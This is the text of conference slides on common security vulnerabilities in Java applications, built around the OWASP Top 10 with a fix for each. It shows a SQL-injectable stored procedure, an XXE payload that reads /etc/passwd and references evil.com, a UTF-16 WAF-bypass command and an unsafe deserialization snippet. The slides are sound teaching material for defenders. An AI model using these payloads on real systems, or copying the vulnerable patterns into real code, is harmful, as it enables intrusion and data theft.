







Security problems in Java applications
Warning: vulnerabilities ahead
Vlatko Kosturjak (@k0st), JavaCro'18, Crveni otok, 9th of May, 2018
Agenda
- Introduction
- OWASP TOP 10
- Most common Java vulns
- Systematic approach
- Summary
- Questions and answers
45 minutes
About me
- CTO at Diverto
- Open source (security) developer
- Authored own tools/projects
- Contributed to many existing projects
- https://github.com/kost
- Java experience
- programming
- attacking java programs
- building security controls
Anything problematic?
OWASP TOP 10 2017
- A1-Injection
- A2-Broken Authentication (Session Management)
- A3-Sensitive data exposure
- A4-XML External Entities (XXE)
- A5-Broken Access Control
- A6-Security Misconfiguration
- A7-Cross Site Scripting (XSS)
- A8-Insecure Deserialization
- A9-Using Components with Known Vulnerabilities
- A10-Insufficient Logging and Monitoring
OWASP TOP 10
-

Already in OWASP TOP 10
- A1-Injection
- A2-Broken Authentication (Session Management)
- A3-Sensitive data exposure
- A5-Broken Access Control
- A6-Security Misconfiguration
- A7-Cross Site Scripting (XSS)
- A9-Using Components with Known Vulnerabilities
"New" vulnerabilities
- A4-XML External Entities (XXE)
- A8-Insecure Deserialization
- A10-Insufficient Logging and Monitoring
Injection
- General problem
- Mixing data and code
- Injecting inputs to existing code
- Different classes
- Database: SQL injection
- XML: XML injection
- LDAP: LDAP injection
- OS: Command injection
- ...
Stored procedures
CREATE PROCEDURE LoginUser
@username varchar(32),
@password varchar(14)
AS
BEGIN
DECLARE @sql nvarchar(1024);
SET @sql = 'SELECT * FROM UserTable
WHERE UserName = ''' + @username + '''
AND Password = ''' + @password + ''' ';
EXEC(@sql);
END
GO
Stored procedures
SET @sql = CONCAT (@query, @username);
Injection fixes
- General
- Use prepared queries
- ORM/frameworks usually do this
- Fix stored procedures
- ORM/frameworks DON'T do this
- Reference
Cross site scripting
- General problem
- Mixing data and code
- Input mixing with HTML/JS context
- Different classes
- Reflective
- Stored
Cross site scripting
- Impact
- Stealing user session
- Stealing user content
- Capturing keyboard (sniffing)
- Impersonating user
XSS fixes
- General
- Escape output coming from any input
- That includes database you don't control
- You have to tell your framework
- frameworks have f() to help you
- Depending on context
- You will want to check OWASP ESAPI
- Reference
XML eXternal Entity (XXE)
- General problem
- Parsing XML files without hardening
- XML eXternal entities or DTD enabled
- Usual inputs
- Web service
- XML RPC
- User upload XML
- XML import
- ...
Google XXE
-

Facebook XXE
-

Uber XXE
-

Simple Example
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE content [
<!ENTITY ent1 SYSTEM "file:///etc/passwd" >
<!ENTITY % ent2 PUBLIC "any_text" "http://evil.com/blah" >
%ent2;
%ent3;
]>
<root>&ent1;&ent2;</root>
XXE Impacts
- Impact
- Reading files
- Reading remote files
- Capturing hashes (sniffing)
- Port scanning
- Remote Code Execution (RCE)
- rare, but possible
WAF/blacklist bypass
echo -n '<?xml version="1.0" encoding="UTF-16BE"' > evil.xml
echo -n '?> <a>1337</a>' | iconv -f UTF-8 -t UTF-16BE >> evil.xml
XXE fixes
- General
- Disable External entities
- Usually enabled by default
- Disable DTDs
- Usually enabled by default
- Depending on context
- You will want to check OWASP ESAPI
- Reference
Deserialization issues
- General problem
- Deserializing data from untrusted input
- Framework/lib deserializing in background
- Inputs
- Browser
- Socket
- Web Service
- Database
- ...
Simple Example
public String register(@FormParam("object") String serstr) {
byte b[] = Base64.decodeBase64(serstr);
ByteArrayInputStream bi = new ByteArrayInputStream(b);
ObjectInputStream si = new ObjectInputStream(bi);
Object obj = si.readObject();
}
Deserialization Impacts
- Impact
- Changing fields
- which should not be changed
- Remote Code Execution (RCE)
- with permissions of application
Deserialization Fixes
- General
- Do not deserialize untrusted input
- Check your components as well
- Look ahead deserialization
- Better than nothing
- Removing gadgets
- Not real fix, only impact mitigation
- Reference
Logging and monitoring
- General problem
- Application does not log actions
- Applications logs too much
- Actions
- Privileged actions
- Users actions
- User login
- User logout
- ...
Logging/Monitoring Impact
- Impact
- Availability
- Application is working?
- Incident response
- Who have done this?
- Non repudation
- I did not do this
Logging recommendations
- General
- Log all relevant security events
- and monitor!
- Store it remotely and securely
- Attacker can't change it
- Data retention
- especially if sensitive
- Reference
Simple example
- Display user last login on login
- user will report if suspicious
- provide easy link to report
- display last X logins
- User can check himself
OWASP OpenSAMM
-

Application Security Verification Standard
-

OWASP ASVS
-

Summary
- "Old" vulns still here
- Old vulns are still vulns
- Vulns with high impact
- XXE
- deserialization
- Systematic approach
- OpenSAMM in organization
- OWASP ASVS as security requirements
- OWASP TOP 10 for awareness